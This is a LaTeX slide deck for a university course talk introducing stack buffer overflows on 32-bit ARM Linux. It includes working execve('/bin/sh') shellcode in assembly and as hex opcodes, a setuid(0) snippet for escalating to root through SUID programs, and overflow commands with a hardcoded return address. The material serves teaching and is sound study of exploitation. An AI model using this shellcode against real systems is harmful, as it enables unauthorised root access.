\documentclass[17pt, aspectratio=169]{beamer}

\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage[skip=2pt, labelformat=empty]{caption}
\usepackage{float}
\usepackage{fancyvrb}

\definecolor{code}{RGB}{219, 196, 152}

\usetheme{Madrid}
\setbeamercolor{normal text}{fg=white,bg=black!90}
\setbeamercolor{structure}{fg=white}
\setbeamercolor{alerted text}{fg=red!85!black}
\setbeamercolor{item projected}{use=item,fg=black,bg=item.fg!35}
\setbeamercolor*{palette primary}{use=structure,fg=structure.fg}
\setbeamercolor*{palette secondary}{use=structure,fg=structure.fg!95!black}
\setbeamercolor*{palette tertiary}{use=structure,fg=structure.fg!90!black}
\setbeamercolor*{palette quaternary}{use=structure,fg=structure.fg!95!black,bg=black!80}
\setbeamercolor*{framesubtitle}{fg=white}
\setbeamercolor*{block title}{parent=structure,bg=black!60}
\setbeamercolor*{block body}{fg=black,bg=black!10}
\setbeamercolor*{block title alerted}{parent=alerted text,bg=black!15}
\setbeamercolor*{block title example}{parent=example text,bg=black!15}
\setbeamertemplate{itemize item}{\color{red!85}$\blacktriangleright$}
\setbeamertemplate{itemize subitem}{\color{red!80}$\bullet$}
\setbeamertemplate{itemize subsubitem}{\color{red!75}$\cdot$}
\setbeamertemplate{itemize/enumerate body begin}{\footnotesize}
\setbeamertemplate{itemize/enumerate subbody begin}{\scriptsize}
\setbeamertemplate{itemize/enumerate subsubbody begin}{\scriptsize}
\setbeamertemplate{navigation symbols}{}

\title[Introduction to Stack Overflows on ARM]{Introduction to Stack Overflows on ARM}
\subtitle{COIS 4901H: Advanced Reading Course}
\author[Yusef Karim]{Author: Yusef Karim\newline Instructor: Jacques Béland}
\institute[]{Department of Computing \& Information Systems\newline Trent University}
\date{December 2018}


\begin{document}

  \frame{\titlepage}

  \begin{frame}
    \frametitle{Exploit Development \& Mitigation}
    \begin{columns}
      \column{0.7\textwidth}
        \begin{itemize}
          \item Covered several chapters of \textit{The Shellcoder's Handbook} involving exploit development on Linux
          \item Knowledge gained:
            \begin{itemize}
              \item Stack and Heap based buffer overflows
              \item Shellcode development techniques
              \item String Format bugs
              \item Program auditing and debugging
              \item Exploiting vulnerable programs
            \end{itemize}
          \item The course text covered the 32-bit x86 Intel architecture
            \begin{itemize}
              \item We expanded upon the ideas and applied them to the 32-bit ARM architecture
            \end{itemize}
        \end{itemize}
      \column{0.35\textwidth}
        \begin{figure}[t]
          
\includegraphics[width=5cm, height=6.5cm]{book_cover.jpg}
        \end{figure}
    \end{columns}
  \end{frame}

  \begin{frame}
    \frametitle{ARM Architecture}

    \begin{itemize}
      \item ARM is a family of Reduced Instruction Set Computing (RISC) based processors
      \item RISC architecture generally requires fewer transistors than Complex Instruction Set Computing (CISC) such as x86. This improves cost, power consumption and heat dissipation
      \item Supports 16-bit instruction set called THUMB mode
        \begin{itemize}
          \item Improves code density, reducing binary file size
          \item Useful for embedded applications where memory footprint matters
        \end{itemize}
    \end{itemize}
  \end{frame}

  \begin{frame}
    \frametitle{Why Linux? Why ARM?}
    \begin{itemize}
      \item Estimated to be over 75 \textbf{BILLION} IoT devices in 2025
        \begin{itemize}
          \item Over 70\% of these devices will be running Linux
          \item Vast majority of these devices will be running on ARM processors
        \end{itemize}
      \item All the phones in this room are very likely using ARM processors
    \end{itemize}
    \begin{figure}[t]
      
\includegraphics[width=8cm, height=3.5cm]{iot_devices.png}
      \caption{\tiny{Estimated growth of IoT devices 2015-2025 [statista.com]}}
    \end{figure}
  \end{frame}


  \begin{frame}
    \frametitle{Important ARM Registers}
    \begin{itemize}
      \item R0-R10 (\textbf{General Purpose})
        \begin{itemize}
          \item Used to store instructions, data, and addresses
        \end{itemize}
      \item R11 (\textbf{Frame Pointer})
        \begin{itemize}
          \item Holds the pointer to the current stack frame
        \end{itemize}
      \item R12 (\textbf{Intra-procedure Call Scratch Register})
        \begin{itemize}
          \item Used by a subroutine to store temporary data.
        \end{itemize}
      \item R13 (\textbf{Stack Pointer})
        \begin{itemize}
          \item Holds the pointer to the top of the stack
        \end{itemize}
      \item R14 (\textbf{Link Register})
        \begin{itemize}
          \item Holds the return addresses whenever a subroutine is called
        \end{itemize}
      \item R15 (\textbf{Program Counter})
        \begin{itemize}
          \item Holds the address of the next instruction to be executed
        \end{itemize}
    \end{itemize}
  \end{frame}


  \begin{frame}
    \frametitle{The Stack}
    \begin{columns}
      \column{0.3\textwidth}
        \small{\textbf{Function Prologue}\newline}
        {\color{code}push\hspace{1em} \{fp, lr\}\newline
         add\hspace{1.5em} fp, sp, {\footnotesize\#}4\newline
         sub\hspace{1.5em} sp, sp, {\footnotesize\#}20}
      \column{0.5\textwidth}
        \begin{figure}[t]
          
\includegraphics[width=5.5cm, height=5.25cm]{stack.png}
        \end{figure}
    \end{columns}
    \begin{itemize}
      \item We will discuss the Function Epilogue on the next slides
    \end{itemize}
  \end{frame}

  \begin{frame}
    \frametitle{Stack Overflows (1)}
    \begin{itemize}
      \item Stack overflows occur when a program tries to write data to a buffer located within a stack frame without checking if the data fits into the buffer.
      \item C compilers don't do bound checking and at most only warn programmers of vulnerable code
      \item Some common vulnerable C functions are:
        \begin{itemize}
          \item strcpy
          \item gets
          \item sprintf
          \item memcpy
        \end{itemize}
      \item How can we take advantage of a program that allows stacked based buffer overflows?
    \end{itemize}
  \end{frame}

  \begin{frame}
    \frametitle{Stack Overflows (2)}
    \begin{columns}
      \begin{column}{0.3\textwidth}
        \small{\textbf{Function Epilogue}\newline
        (Restore PC)\newline}
        {\color{code}sub\hspace{1.25em} sp, fp, {\footnotesize\#}4\newline
         pop\hspace{1em} \{fp, pc\}}\newline
      \end{column}
      \begin{column}{0.1\textwidth}
        or
      \end{column}
      \begin{column}{0.33\textwidth}
        \small{\textbf{Function Epilogue}\newline
        (Branch \& Exchange)\newline}
        {\color{code}sub\hspace{1.25em} sp, fp, {\footnotesize\#}4\newline
         pop\hspace{1em} \{fp, lr\}\newline
         bx\hspace{1.75em} lr}
      \end{column}
    \end{columns}
    \begin{itemize}
      \item Overflow the return address (which exists on the stack) of the called function
      \item Redirect program flow to memory address of our malicious code
    \end{itemize}
  \end{frame}

  \begin{frame}[fragile]
    \frametitle{Shellcode (1)}
    \begin{itemize}
      \item Small piece of code that can be injected into a vulnerable program
      \item Assembly instructions can be decoded into numerical values called opcodes
      \item Opcodes can be escaped and stored in a hex string, becoming \textbf{shellcode}
      \item Shellcode commonly makes use of Linux system calls
      \item Shellcode can be stored directly in program memory or in a Linux environment variable
      \item Strings in C are NULL-terminated, shellcode should not have any NULL bytes
      \begin{Verbatim}[fontsize=\tiny, formatcom=\color{code}]
                mov r2, #0      @ BAD, contains null bytes
                eor r2, r2, r2  @ GOOD, achieves same thing without null bytes
      \end{Verbatim}
    \end{itemize}
  \end{frame}

  \begin{frame}[fragile]
    \frametitle{Shellcode (2)}
    \framesubtitle{Example of \textbf{execve} assembly code using PC-relative addressing}
    \begin{Verbatim}[fontsize=\tiny, formatcom=\color{code}]
      .text
      .global _start

      _start:
        .code 32
        add r3, pc, #1      @ Add 1 to PC register and add it to r3
        bx r3               @ Branch and exchange to switch to Thumb mode (LSB = 1)

        .code 16
        @@@ execve("/bin/sh", ["/bin/sh"], NULL); @@@
        adr r0, shell       @ Use program-relative addressing to load our string into r0
        eor r2, r2, r2      @ XOR r2 with itself, zeroing it out
        strb r2, [r0, #7]   @ Overwrite the last byte (X) in r0 to be NULL
        push {r0, r2}       @ Push r0 ("/bin/sh\0") and r2 (NULL) onto the stack
        mov r1, sp          @ Store address of sp (top of stack) into r1
        mov r7, #11         @ Store syscall for execve (11) in r7
        svc #1              @ Interrupt to make a supervisor call
        mov r5, r5          @ NOP instruction for proper alignment

      shell:
          .ascii "/bin/shX"
     \end{Verbatim}
  \end{frame}

  \begin{frame}[fragile]
    \frametitle{Shellcode (3)}
    \begin{itemize}
      \item Assemble
      \begin{Verbatim}[fontsize=\footnotesize, formatcom=\color{code}]
      as shellcode.s -o shellcode.o
      \end{Verbatim}
    \item Link (-N makes .text section writable)
      \begin{Verbatim}[fontsize=\footnotesize, formatcom=\color{code}]
      ld shellcode.o -N -o shellcode
      \end{Verbatim}
      \item Create raw binary file
      \begin{Verbatim}[fontsize=\footnotesize, formatcom=\color{code}]
      objcopy -O binary shellcode shellcode.bin
      \end{Verbatim}
      \item Extract opcodes
      \begin{Verbatim}[fontsize=\footnotesize, formatcom=\color{code}]
      hexdump -v -e '"\\""x" 1/1 "%02x" ""' shellcode.bin
      \end{Verbatim}
      \item Injectable \textbf{execve} shellcode:
      \begin{BVerbatim}[fontsize=\scriptsize, fontseries=b]
      \x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2
      \x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62
      \x69\x6e\x2f\x73\x68\x58
      \end{BVerbatim}
    \end{itemize}
  \end{frame}

  \begin{frame}[fragile]
    \frametitle{NOP Sled}
    \begin{itemize}
      \item Store the shellcode in an environment variable and overflow the return address of a vulnerable function with the address of the environment variable
      \item Determining the \textbf{exact} address of the environment variable can be quite difficult and alignment issues may cause problems
      \item Use (N)o-(OP)eration (NOP) instructions to pad the shellcode
      \item All that is needed is to land within the NOP sled
      \item \textbf{MOV} instruction can be used as a NOP on ARM
      \begin{Verbatim}[fontsize=\footnotesize, formatcom=\color{code}]
                mov   r1, r1
      \end{Verbatim}
    \end{itemize}
  \end{frame}

  \begin{frame}
    \frametitle{Linux Privilege Escalation (1)}
    \begin{columns}
      \begin{column}{0.7\textwidth}
        \begin{itemize}
          \item All files on Linux systems have specific permissions
          \item Special file permission bits such as Set User ID (SUID) and Set Group ID (SGID)
          \item SUID bit allows the user to run a program as the owner of the program file rather than as themselves
          \item Very dangerous if set on a vulnerable program
        \end{itemize}
      \end{column}
      \begin{column}{0.3\textwidth}
        \begin{figure}[t]
          
\includegraphics[width=4.5cm, height=3cm]{file_permissions.png}
          \caption{\tiny{\textbf{Source:} linuxcommand.org}}
        \end{figure}
      \end{column}
    \end{columns}
  \end{frame}

  \begin{frame}[fragile]
    \frametitle{Linux Privilege Escalation (2)}
    \begin{itemize}
      \item We can escalate our privileges to root by injecting our shellcode into a vulnerable SUID executable
      \item If SUID bit is set, the \textbf{setuid} system call must be made explicitly before privilege escalation can occur
      \item We can add a \textbf{setuid} system call to our shellcode
    \end{itemize}
    \begin{Verbatim}[fontsize=\scriptsize, formatcom=\color{code}]
                .code 16
                @@@ setuid(0); @@@
                eor r1, r1, r1      @ XOR r1 with itself, zeroing it out
                mov r0, r1          @ Move r1 (0) into r0
                mov r7, #23         @ Store syscall for setuid (23) in r7
                svc #1              @ Interrupt to make a supervisor call
    \end{Verbatim}
  \end{frame}

  \begin{frame}[fragile]
    \frametitle{Demonstration}
    \iffalse
    \begin{Verbatim}[fontsize=\tiny, formatcom=\color{code}]
    export SHELLYYY=$(cat uid.bin)
    ./getenv SHELLYYY ./overflow
    ./overflow  $(printf "AAAABBBBCCCCDDDD\x44\xfe\xff\x7e")
    \end{Verbatim}
    \fi
  \end{frame}

  \begin{frame}
    \frametitle{What's Next?}
    \begin{itemize}
      \item Use Return Oriented Programming (ROP) Gadgets to bypass non-executable stack
      \item Find ways to bypass Address Space Layout Randomization (ASLR) and other modern security mechanisms
      \item Create shellcode that works remotely (reverse shells)
      \item Encode shellcode to avoid IDS/IPS filters
    \end{itemize}
  \end{frame}

  \begin{frame}
    \frametitle{References (1)}
    \begin{itemize}
      \item\textbf{Official ARM Developer Website}
      \newline\url{https://developer.arm.com/products/architecture}

      \item\textbf{The Shellcoder's Handbook: Discovering and Exploiting Security Holes by Chris Anley, John Lindner, and Gerardo Richarte}

      \item\textbf{Hacking: The Art of Exploitation by Jon Erickson}

      \item\textbf{Azeria Labs}
      \newline\url{https://azeria-labs.com/}

      \item\textbf{A Short Guide on ARM Exploitation}
      \newline\url{https://www.exploit-db.com/docs/english/24493-a-short-guide-on-arm-exploitation.pdf}
    \end{itemize}
  \end{frame}

  \begin{frame}
    \frametitle{References (2)}
    \begin{itemize}
      \item\textbf{Exploit Database: ARM execve shellcode}
        \newline\url{https://www.exploit-db.com/exploits/45290/}
      \item\textbf{ARM shellcode and exploit development by Andrea Sindoni}
        \newline\url{https://github.com/invictus1306/Workshop-BSidesMunich2018}
      \item\textbf{Linux Syscall Reference}
        \newline\url{https://syscalls.kernelgrok.com/}
      \item\textbf{Estimated growth of IoT devices}
        \newline\url{https://www.statista.com/statistics/471264/iot-number-of-connected-devices-worldwide/}
      \item\textbf{IoT operating system survey}
        \newline\url{https://blog.benjamin-cabe.com/2018/04/17/key-trends-iot-developer-survey-2018}
    \end{itemize}
  \end{frame}
\end{document}

